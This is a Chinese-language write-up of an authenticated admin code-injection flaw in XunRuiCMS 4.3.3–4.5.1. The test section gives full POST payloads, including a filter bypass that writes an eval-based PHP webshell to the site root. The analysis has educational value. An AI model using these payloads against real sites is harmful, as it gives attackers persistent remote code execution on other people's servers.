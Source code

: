 # 迅睿CMS 漏洞整理

- [迅睿CMS 漏洞整理](#迅睿cms-漏洞整理)
  - [V4.3.3-V4.5.1 后台任意注入漏洞](#v433-v451-后台任意注入漏洞)
    - [漏洞要求](#漏洞要求)
    - [漏洞分析](#漏洞分析)
  - [漏洞测试](#漏洞测试)
  - [小结](#小结)
  - [相关连接](#相关连接)

## V4.3.3-V4.5.1 后台任意注入漏洞

为了避免后续复现漏洞时没有源代码，故将20220707当天的master 代码克隆到当前目录下
本文章使用的是 `version 4.3.10 栏目数量最多限制为100个` 即 commit 为 `89b9497bf7fd89e468f7858b457a3e6e499bc44a` 的代码进行的漏洞复现和分析。

### 漏洞要求

- 版本为v4.3.3-v4.5.1
- 可以登陆后台并具有"应用"->"任务队列"的管理权限，`/admin.php?c=Cron&m=add`

### 漏洞分析

访问`admin.php?c=Cron&m=add`, 不用填写，点击保存，看网站目录下 `cache/config/cron.php` 内容如下：

```php
<?php defined('FCPATH') OR exit('No direct script access allowed');
 $json='{"1":{"name":"","code":""},"2":{"name":"","code":""},"3":{"name":"","code":""},"4":{"name":"","code":""},"5":{"name":"","code":""},"6":{"name":"","code":""},"7":{"name":"","code":""},"8":{"name":"","code":""},"9":{"name":"","code":""},"10":{"name":"","code":""},"11":{"name":"","code":""},"12":{"name":"","code":""},"13":{"name":"","code":""},"14":{"name":"","code":""},"15":{"name":"","code":""},"16":{"name":"","code":""},"17":{"name":"","code":""},"18":{"name":"","code":""},"19":{"name":"","code":""},"20":{"name":"","code":""}}';
```

从这里可以分析出，如果这个地方对于用户输入的内容过滤不严格，就非常容易存在漏洞

我们来分析一下 `cron.php` 中的`add` 方法：

```php
    // 任务类型
    public function add() {

        $json = '';
        if (is_file(WRITEPATH.'config/cron.php')) {
            require WRITEPATH.'config/cron.php';
        }

        $data = json_decode($json, true);

        if (IS_AJAX_POST) {

            $post = \Phpcmf\Service::L('input')->post('data', true);

            file_put_contents(WRITEPATH.'config/cron.php',
                '<?php defined(\'FCPATH\') OR exit(\'No direct script access allowed\');'.PHP_EOL.' $json=\''.json_encode($post).'\';');

            \Phpcmf\Service::L('input')->system_log('设置自定义任务类型');

            $this->_json(1, dr_lang('操作成功'));
        }

        \Phpcmf\Service::V()->assign([
            'data' => $data,
        ]);
        \Phpcmf\Service::V()->display('cron_add.html');
    }
```

从源码中可以看到有一个非常容易存在问题的地方

```php
if (is_file(WRITEPATH.'config/cron.php')) {
    require WRITEPATH.'config/cron.php';
}
```

如上面最开始所说的，如果对于用户输入的内容过滤不严格，导致可以写入任意内容，这段代码又通过 `require WRITEPATH.'config/cron.php';` 加载执行，那么就可以造成非常严重的漏洞

继续分析代码

```php
if (IS_AJAX_POST) {

    $post = \Phpcmf\Service::L('input')->post('data', true);

    file_put_contents(WRITEPATH.'config/cron.php',
        '<?php defined(\'FCPATH\') OR exit(\'No direct script access allowed\');'.PHP_EOL.' $json=\''.json_encode($post).'\';');

    \Phpcmf\Service::L('input')->system_log('设置自定义任务类型');

    $this->_json(1, dr_lang('操作成功'));
}
```

在上面这段代码中`file_put_contents` 函数会进行文件写入，不过问题也出在了这个地方，代码中的`$json=\''.json_encode($post).'\';');` `$json` 的值 是字符串的拼接，在内容的前后拼接了一个`'`，如果我们控制了这个值并且闭合前后的`'`,加入我们想要执行的代码，那么就造成了非常严重的漏洞。所以接下来我们需要顺着这个`json_encode($post)`往上找，看看看对于这个值是否可以进行控制。

分析`cron.php` 中的`add` 中 `post` 请求时数据的处理流程：

- `dayrui/Core/Controllers/Admin/Cron.php` 文件中 add 方法中调用 `$post = \Phpcmf\Service::L('input')->post('data', true);`
- 经过 `dayrui/Fcms/Library/Input.php` 文件中 `post` 方法又调用 `xss_clean`方法，并最终调用 `dayrui/Fcms/Library/Security.php` 中的 `xss_clean` 方法对`post`请求中的数据进行`xss`清理
- `dayrui/Core/Controllers/Admin/Cron.php` 文件中 add 方法中执行 `file_put_contents(WRITEPATH.'config/cron.php','<?php defined(\'FCPATH\') OR exit(\'No direct script access allowed\');'.PHP_EOL.' $json=\''.json_encode($post).'\';');` 将 post 数据 `json_encode` 并写入 `config/cron.php` 文件

## 漏洞测试

我们尝试直接在`admin.php?c=Cron&m=add` 的post请求中直接加入如下数据

```url
data[1][name]=&data[1][code]=[';file_put_contents('webshell.php','<?php eval(@$_POST["password"]);?>);return;']
// 完整的post 数据
is_form=1&is_admin=1&is_tips=&csrf_test_name=06b5fd7088e5c1036c2f522d34b19c47&data%5B1%5D%5Bname%5D=&data%5B1%5D%5Bcode%5D=%5B'%3bfile_put_contents('webshell.php','<%3fphp+eval(%40$_POST["password"])%3b%3f>)%3breturn%3b'%5D
```

这个是构造的data 数据，可以通过如下方式调试一下代码，方便看我们的调试结果：

```php
if (IS_AJAX_POST) {

    $post = \Phpcmf\Service::L('input')->post('data', true);
    // -----添加的调试代码-----
    var_dump(json_encode($post));
    exit();
    // -----添加的调试代码-----
    file_put_contents(WRITEPATH.'config/cron.php',
        '<?php defined(\'FCPATH\') OR exit(\'No direct script access allowed\');'.PHP_EOL.' $json=\''.json_encode($post).'\';');

    \Phpcmf\Service::L('input')->system_log('设置自定义任务类型');

    $this->_json(1, dr_lang('操作成功'));
}
```

测试我们上面的请求，可以看到如下结果：

```php
string(125) "{"1":{"name":"","code":"[';file_put_contents('webshell.php','&lt;?php eval&#40;@$_POST[\"password\"]&#41;;?&gt;);return;']"}}"
```

可以看到输入的内容被进行了编码:

- `<`被编码为 `&lt;`
- `>`被编码为 `&gt;`
- eval的`(`被编码为 `&#40;`
- eval的`)`被编码为 `&#41;`
- `"` 被进行了转义`\"`

接下来我们需要想办法绕过上面的转换

- 关于`>`和 `<` 的编码可以看出来是被进行的html编码，这个可以通过使用`htmlspecialchars_decode`来解决
- 关于`(`,`)`被编码以及`"`被转义可以通过 `base64_decode` 编码的方式进行绕过

这样讲我们构造的post 的数据进行调整为：

```http
data[1][name]=&data[1][code]=[';file_put_contents('webshell.php',htmlspecialchars_decode('<').'?php%20eval'.base64_decode('KA==').'@$_POST%5B'.base64_decode('Ig==').'password'.base64_decode('Ig==').'%5D'.base64_decode('KQ==').';?'.htmlspecialchars_decode('>'));return;']
// 完整请求参数
is_form=1&is_admin=1&is_tips=&csrf_test_name=398242eb0f467c80b539d08baf47eb29&data%5B1%5D%5Bname%5D=&data%5B1%5D%5Bcode%5D=%5B'%3bfile_put_contents('webshell.php',htmlspecialchars_decode('<').'%3fphp%2520eval'.base64_decode('KA%3d%3d').'%40$_POST%255B'.base64_decode('Ig%3d%3d').'password'.base64_decode('Ig%3d%3d').'%255D'.base64_decode('KQ%3d%3d').'%3b%3f'.htmlspecialchars_decode('>'))%3breturn%3b'%5D
```

调试的结果为：

```php
string(265) "{"1":{"name":"","code":"[';file_put_contents('webshell.php',htmlspecialchars_decode('&lt;').'?php eval'.base64_decode('KA==').'@$_POST['.base64_decode('Ig==').'password'.base64_decode('Ig==').']'.base64_decode('KQ==').';?'.htmlspecialchars_decode('>'));return;']"}}"
```

我们上面添加的调试代码去掉，然后看看最终写入到`cache/config/cron.php` 内容如下：

```php
<?php defined('FCPATH') OR exit('No direct script access allowed');
 $json='{"1":{"name":"","code":"[';file_put_contents('webshell.php',htmlspecialchars_decode('&lt;').'?php eval'.base64_decode('KA==').'@$_POST['.base64_decode('Ig==').'password'.base64_decode('Ig==').']'.base64_decode('KQ==').';?'.htmlspecialchars_decode('>'));return;']"}}';
```

然后访问 `/admin.php?c=Cron&m=add` 这个时候就会在网站根目录下看到写入了一个webshell.php 文件，内容为：`<?php eval(@$_POST["password"]);?>`

需要注意的是我们构造的数据前后都有 `';` 这个就是为了闭合下面代码中的 `json_encode($post)` 前后的拼接的`'`

```php
 file_put_contents(WRITEPATH.'config/cron.php',
        '<?php defined(\'FCPATH\') OR exit(\'No direct script access allowed\');'.PHP_EOL.' $json=\''.json_encode($post).'\';');
```

## 小结

作为一个在学习完漏洞原理之后，把这个作为入门分析代码的例子还是非常不错的，过程也还比较有意思

## 相关连接

- <https://xz.aliyun.com/t/11457>
- <https://gitee.com/dayrui/xunruicms>
